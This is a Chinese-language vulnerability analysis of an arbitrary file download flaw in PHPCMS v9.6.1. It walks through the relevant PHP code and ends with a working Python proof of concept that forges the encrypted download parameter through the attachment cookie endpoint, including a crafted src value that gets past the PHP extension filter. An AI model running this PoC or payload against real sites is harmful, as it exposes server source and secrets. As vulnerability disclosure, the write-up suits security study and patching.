



### 漏洞分析

#### file_down方法

在phpcms中，有一个file_down函数用来下载文件的，该函数位于/phpcms/libs/functions/global.func.php

```php
/**
 * 文件下载
 * @param $filepath 文件路径
 * @param $filename 文件名称
 */
function file_down($filepath, $filename = '') {
	if(!$filename) $filename = basename($filepath);
	if(is_ie()) $filename = rawurlencode($filename);
	$filetype = fileext($filename);
	$filesize = sprintf("%u", filesize($filepath));
	if(ob_get_length() !== false) @ob_end_clean();
	header('Pragma: public');
	header('Last-Modified: '.gmdate('D, d M Y H:i:s') . ' GMT');
	header('Cache-Control: no-store, no-cache, must-revalidate');
	header('Cache-Control: pre-check=0, post-check=0, max-age=0');
	header('Content-Transfer-Encoding: binary');
	header('Content-Encoding: none');
	header('Content-type: '.$filetype);
	header('Content-Disposition: attachment; filename="'.$filename.'"');
	header('Content-length: '.$filesize);
	readfile($filepath);
	exit;
}
```


#### download方法

/phpcms/modules/content/down.php的download方法调用了file_down方法

```php
public function download() {
    $a_k = trim($_GET['a_k']);
    $pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT'].'down');  
    $a_k = sys_auth($a_k, 'DECODE', $pc_auth_key);
    if(empty($a_k)) showmessage(L('illegal_parameters'));
    unset($i,$m,$f,$t,$ip);
    $a_k = safe_replace($a_k); 
    parse_str($a_k);  
    if(isset($i)) $downid = intval($i);
    if(!isset($m)) showmessage(L('illegal_parameters'));
    if(!isset($modelid)) showmessage(L('illegal_parameters'));
    if(empty($f)) showmessage(L('url_invalid'));
    if(!$i || $m<0) showmessage(L('illegal_parameters'));
    if(!isset($t)) showmessage(L('illegal_parameters'));
    if(!isset($ip)) showmessage(L('illegal_parameters'));
    $starttime = intval($t);
    if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$f) || strpos($f, ":\\")!==FALSE || strpos($f,'..')!==FALSE) showmessage(L('url_error')); 
    $fileurl = trim($f);
    if(!$downid || empty($fileurl) || !preg_match("/[0-9]{10}/", $starttime) || !preg_match("/[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}/", $ip) || $ip != ip()) showmessage(L('illegal_parameters'));    
    $endtime = SYS_TIME - $starttime;
    if($endtime > 3600) showmessage(L('url_invalid'));
    if($m) $fileurl = trim($s).trim($fileurl);  
    if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$fileurl) ) showmessage(L('url_error'));  
    //远程文件
    if(strpos($fileurl, ':/') && (strpos($fileurl, pc_base::load_config('system','upload_url')) === false)) {  
        header("Location: $fileurl");
    } else {
        if($d == 0) {
            header("Location: ".$fileurl);  
        } else {
            $fileurl = str_replace(array(pc_base::load_config('system','upload_url'),'/'), array(pc_base::load_config('system','upload_path'),DIRECTORY_SEPARATOR), $fileurl);
            $filename = basename($fileurl);  
            //处理中文文件
            if(preg_match("/^([\s\S]*?)([\x81-\xfe][\x40-\xfe])([\s\S]*?)/", $fileurl)) {
                $filename = str_replace(array("%5C", "%2F", "%3A"), array("\\", "/", ":"), urlencode($fileurl));
                $filename = urldecode(basename($filename));  
            }
            $ext = fileext($filename);  
            $filename = date('Ymd_his').random(3).'.'.$ext;
            $fileurl = str_replace(array('<','>'), '',$fileurl);  
            file_down($fileurl, $filename);  
        }
    }
}
```

我们分析一下$fileurl的得到过程


首先，**接收get传来的a_k变量**，对该变量使用sys_auth方法进行解密、替换之后，使用**parse_str方法**提取从而得到$i、$m、$f、$t、$ip，

```php
$a_k = trim($_GET['a_k']);
$pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT'].'down');
$a_k = sys_auth($a_k, 'DECODE', $pc_auth_key);
if(empty($a_k)) showmessage(L('illegal_parameters'));
unset($i,$m,$f,$t,$ip);
$a_k = safe_replace($a_k);
parse_str($a_k);
```

第二步，将去空格后的$f变量赋值给$fileurl

```php
$fileurl = trim($f);
```

第三步，如果$m存在，那么将去空格后的$s和$fileurl进行拼接

```php
if($m) $fileurl = trim($s).trim($fileurl);
```

最后，过滤尖括号，得到$fileurl的值

```php
$fileurl = str_replace(array('<','>'), '',$fileurl);
```

好了，知道了$fileurl的值是怎么来的，那么我们现在能**得出一个结论：可以构造$a_k来控制这些变量**


#### init方法

/phpcms/modules/content/down.php的init方法，在init方法中，有个判断，会将数据以sys_auth方法进行加密，且秘钥为pc_auth_key，随后调用download方法

```php
public function init() {
    ......  
    if(strpos($f, 'http://') !== FALSE || strpos($f, 'ftp://') !== FALSE || strpos($f, '://') === FALSE) {
        $pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT'].'down');
        $a_k = urlencode(sys_auth("i=$i&d=$d&s=$s&t=".SYS_TIME."&ip=".ip()."&m=".$m."&f=$f&modelid=".$modelid, 'ENCODE', $pc_auth_key));  
        $downurl = '?m=content&c=down&a=download&a_k='.$a_k;
    } else {
       ...            
    }
}
```


#### init方法所接受的$a_k构造过程（一）

看看哪些地方能够生产对init方法的调用，如果调用了init方法的话，那么就能定位到漏洞可能产生地方


phpcms/modules/content/fields/downfile和phpcms/modules/content/fields/downfiles中会生成init方法的$a_k，但是分析发现，content_input和content_output逻辑中权限验证和限制逻辑比较完善，基本不存在利用可能


####  init方法所接受的$a_k构造过程（二）

由于是sys_auth是对称加密，那么能不能找个使用相同密钥生成的地方来生成$a_k？


找到了，param::set_cookie、param::get_cookie 对cookie加密是使用默认的pc_auth_key的

```php
# /phpcms/modules/video/video.php
public function swfupload_json() {
    $arr['aid'] = intval($_GET['aid']);
    $arr['src'] = safe_replace(trim($_GET['src']));
    $arr['filename'] = urlencode(safe_replace($_GET['filename']));
    $json_str = json_encode($arr);
    $att_arr_exist = param::get_cookie('att_json');
    $att_arr_exist_tmp = explode('||', $att_arr_exist);
    if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
        return true;
    } else {
        $json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
        param::set_cookie('att_json',$json_str);
        return true;            
    }
}

# /phpsso_server/phpcms/libs/classes/param.class.php
/**
	 * 设置 cookie
	 * @param string $var     变量名
	 * @param string $value   变量值
	 * @param int $time    过期时间
	 */
public static function set_cookie($var, $value = '', $time = 0) {
    $time = $time > 0 ? $time : ($value == '' ? SYS_TIME - 3600 : 0);
    $s = $_SERVER['SERVER_PORT'] == '443' ? 1 : 0;
    $var = pc_base::load_config('system','cookie_pre').$var;
    $_COOKIE[$var] = $value;
    if (is_array($value)) {
        foreach($value as $k=>$v) {
            setcookie($var.'['.$k.']', sys_auth($v, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);
        }
    } else {
        setcookie($var, sys_auth($value, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);
    }
}

# /phpsso_server/phpcms/libs/classes/param.class.php
/**
	 * 获取通过 set_cookie 设置的 cookie 变量 
	 * @param string $var 变量名
	 * @param string $default 默认值 
	 * @return mixed 成功则返回cookie 值，否则返回 false
	 */
public static function get_cookie($var, $default = '') {
    $var = pc_base::load_config('system','cookie_pre').$var;
    return isset($_COOKIE[$var]) ? sys_auth($_COOKIE[$var], 'DECODE') : $default;
}
```


### 验证

使用用户**登录后**，访问以下链接，返回包中有Set-Cookie字段

```php
index.php?m=attachment&c=attachments&a=swfupload_json&aid=4&src=shley
```



在/phpcms/modules/content/down.php中打印$a_k变量

```php
public function init() {
    $a_k = trim($_GET['a_k']);
    if(!isset($a_k)) showmessage(L('illegal_parameters'));
    $a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));
    echo $a_k;
    ...
```


使用产生的Cookie字段作为&a_k变量，访问

```php
index.php?m=content&c=down&a=init
&a_k=21c6WupJ5xssUrNbFIYlutb2q4XRwEsY8IJqbZR2dgG99ikMpIoBdAgoeX6y0FbRssqKOuJeGYzy7mFUw_OC5NaIjuNQtHLZSvzpakfEULwGCMR5H8VzgEWyrTktCTUOZxkxvE06NROz
```


页面打印成功




### Poc

```python
# coding: utf-8

"""
name: PHPCMS v9.6.1 任意文件下载
author: Anka9080
description: 过滤函数不严谨导致任意文件下载。
"""

import sys
import requests
from termcolor import cprint

def poc(target):
    print('第一次请求，获取cookie_siteid ')
    url = target +'index.php?m=wap&c=index&a=init&siteid=1'
    s = requests.Session()
    r = s.get(url)
    cookie_siteid =  r.headers['set-cookie']
    cookie_siteid = cookie_siteid[cookie_siteid.index('=')+1:]
    print(cookie_siteid)
    print('第二次请求，获取att_json')
    
    url = target + 'index.php?m=attachment&c=attachments&&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3D./phpcms/modules/content/down.ph%26f%3Dp%3%25252%2*70C'
    post_data = {
        'userid_flash':cookie_siteid
    }
    r = s.post(url,post_data)
    # print r.headers
    for cookie in s.cookies:
        if '_att_json' in cookie.name:
            cookie_att_json = cookie.value
    print(cookie_att_json)
    print('第三次请求，获取文件下载链接 ')
    url = target + 'index.php?m=content&c=down&a=init&a_k=' + cookie_att_json
    r = s.get(url)
    if 'm=content&c=down&a=download&a_k=' in r.text:
        cprint('[!] Vul : {}'.format(target),'red')
        return True
    else:
        return False
    
if __name__ == "__main__":
    poc('http://127.0.0.1/phpcms_v9.6.1/install_package/')
```

验证过程




### 参考

https://segmentfault.com/a/1190000009279116

https://github.com/SecWiki/CMS-Hunter/tree/master/PHPCMS/PHPCMS_v9.6.1_%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD